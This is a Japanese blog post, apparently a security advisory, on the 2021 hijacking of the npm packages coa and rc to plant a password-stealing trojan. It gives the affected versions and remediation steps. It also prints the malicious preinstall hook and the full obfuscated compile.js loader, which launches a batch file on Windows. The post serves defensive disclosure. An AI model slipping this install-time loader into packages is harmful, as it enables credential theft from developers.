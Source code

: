 ```yaml
---
id: 4h4ejctfMpzeQYcn4uhrR0
title: " npm の人気パッケージ 「coa」と「rc」にマルウェアが埋め込まれた"
slug: "npm-coa-rc-embded-malware"
about: "2021/11/5 npm パッケージ 「coa」と「rc」がハイジャックされ、パスワードを盗むマルウェアが埋め込まれました。現在の時点では問題のあったバージョンはすべて取り除かれています。"
createdAt: "2021-11-07T00:00+09:00"
updatedAt: "2021-11-07T00:00+09:00"
tags: ["JavaScript", "セキュリティ"]
thumbnail:
  url: "https://images.ctfassets.net/in6v9lxmm5c8/5aBvLSXirDOkziSXDURioE/e547110fe258417a05556347c142e813/npm.png"
  title: "npm"
audio: null
selfAssessment: null
published: true
---
```

2021/11/5 npm パッケージ「coa」と「rc」がハイジャックされ、パスワードを盗むマルウェアが埋め込まれました。現在の時点では問題のあったバージョンはすべて取り除かれています。

- [coa](https://github.com/veged/coa/issues/99) はコマンドライン引数のパーサーで、週に 880 万ダウンロードされています。有名なライブラリですと [React](https://github.com/facebook/react/blob/main/yarn.lock#L4748) がや [@vue/cli-service](https://github.com/vuejs/vue-cli/blob/dev/yarn.lock#L7286) がこのパッケージに依存しています。
- [rc](https://github.com/veged/coa/issues/99) は設定のローダーで、週に 130 万ダウンロードされています。

## 影響を受けたバージョン

### coa

- 2.0.3
- 2.0.4
- 2.1.1
- 2.1.3
- 3.0.1
- 3.1.3

### rc

- 1.2.9
- 1.3.9
- 2.3.9

## なにをすべきですか？

npm を利用しているレポジトリにおいて「coa」または「rc」の上記に該当するバージョンが存在するか `package.lock.json` または `yarn.lock` ファイルを確認します。

もしこれらのバージョンが含まれていた場合あなたのマシンに以下のファイルが含まれていないかどうか確認し、削除する必要があります。またあなたのパスワードの情報はすでに盗まれている可能性があるので速やかに変更をすべきです。

- compile.js
- compile.bat
- sdd.dll

## マルウェアの内容

埋め込まれたマルウェアは「coa」と「rc」どちらも同じ内容で、どちらも `preinstall` を利用した攻撃となっています。

`preinstall` は `npm-script` に定義できる [Life Cycle Scripts](https://docs.npmjs.com/cli/v7/using-npm/scripts#life-cycle-scripts) と呼ばれる特殊なスクリプトであり `npm install` が実行される直前に実行されます。

```js
"preinstall": "start /B node compile.js & node compile.js"
```

影響を受けたバージョンには `compile.js` と `compile.bat` という名前のファイルが含まれており `npm install` を実行することで `compile.js` が実行されてしまいます。

- compile.js

```js
const _0x29286e=_0x3b9e;(function(_0x595213,_0x1c7f12){const _0x524030=_0x3b9e,_0x10bbc4=_0x595213();while(!![]){try{const _0x5ab451=parseInt(_0x524030(0xef))/0x1*(-parseInt(_0x524030(0xfa))/0x2)+parseInt(_0x524030(0xf7))/0x3+-parseInt(_0x524030(0xf6))/0x4*(parseInt(_0x524030(0xf5))/0x5)+-parseInt(_0x524030(0xf2))/0x6*(-parseInt(_0x524030(0xed))/0x7)+-parseInt(_0x524030(0xf8))/0x8*(parseInt(_0x524030(0xe9))/0x9)+parseInt(_0x524030(0xeb))/0xa+parseInt(_0x524030(0xf3))/0xb*(parseInt(_0x524030(0xf4))/0xc);if(_0x5ab451===_0x1c7f12)break;else _0x10bbc4['push'](_0x10bbc4['shift']());}catch(_0x3b1efb){_0x10bbc4['push'](_0x10bbc4['shift']());}}}(_0x4f67,0x3d733));const {exec}=require('child_process');function _0x4f67(){const _0x5d7817=['28bejTPQ','1355673ZDaxId','779896MgsJdu','child_process','26358GzOkXk','MacOS','platform','cmd.exe','win64','27EVEPMY','win32','768760SJubeg','Linux','111587KPhwpG','compile.bat','11xGbwXc','linux','darwin','36HiOlse','11PTXHjR','3696096qOooYF','173780mPHnxy'];_0x4f67=function(){return _0x5d7817;};return _0x4f67();}var opsys=process[_0x29286e(0xfc)];function _0x3b9e(_0x21f5ee,_0x411966){const _0x4f6708=_0x4f67();return _0x3b9e=function(_0x3b9ecb,_0x3ac81f){_0x3b9ecb=_0x3b9ecb-0xe9;let _0x5a6794=_0x4f6708[_0x3b9ecb];return _0x5a6794;},_0x3b9e(_0x21f5ee,_0x411966);}if(opsys==_0x29286e(0xf1))opsys=_0x29286e(0xfb);else{if(opsys==_0x29286e(0xea)||opsys==_0x29286e(0xfe)){opsys='Windows';const {spawn}=require(_0x29286e(0xf9)),bat=spawn(_0x29286e(0xfd),['/c',_0x29286e(0xee)]);}else opsys==_0x29286e(0xf0)&&(opsys=_0x29286e(0xec));}
```

`compile.js` が実行されることで `compile.bat` というバッチファイルが実行されます。このバッチが実行されると `sdd.dll` がインストールされ起動されます。このマルウェアは、Windows 用のパスワード盗用トロイの木馬である Danabot である可能性が高いです。

Danabot が読み込まれると、以下のようなさまざまな悪意ある活動を行います。

- Chrome、Firefox、Opera、Internet Explorer、Safari などのさまざまなウェブブラウザからパスワードを盗む。
- VNC、FTP クライアント、メールアカウントなど、さまざまなアプリケーションからパスワードを盗む。
保存されているクレジットカードを盗む。
- アクティブな画面のスクリーンショットを撮る。
- キーストロークを記録する。

## npm のセキュリティに対する対策

### 2FA の有効化

マルウェアが埋め込まれた現在として npm のパッケージを公開する権限がある人のアカウントが乗っ取られたことが要因として上げられています。npm としては同様の攻撃を防ぐため**2FAを有効にする**ことが強く推奨されています。

https://twitter.com/npmjs/status/1456310653681999876

### pre-install を無効化する

マルウェアの実行の多くは `pre-install` スクリプトによって行われています。パッケージをインストールする際に `--ignore-scripts` オプションを付与することでスクリプトの実行をオプトアウトできます。

```
npm install --ignore-scripts
yarn add --ignore-scripts
```

## 参考

- https://therecord.media/malware-found-in-coa-and-rc-two-npm-packages-with-23m-weekly-downloads/
- https://www.bleepingcomputer.com/news/security/popular-coa-npm-library-hijacked-to-steal-user-passwords/
- https://github.com/advisories/GHSA-g2q5-5433-rhrf
- https://github.com/advisories/GHSA-73qr-pfmq-6rp8
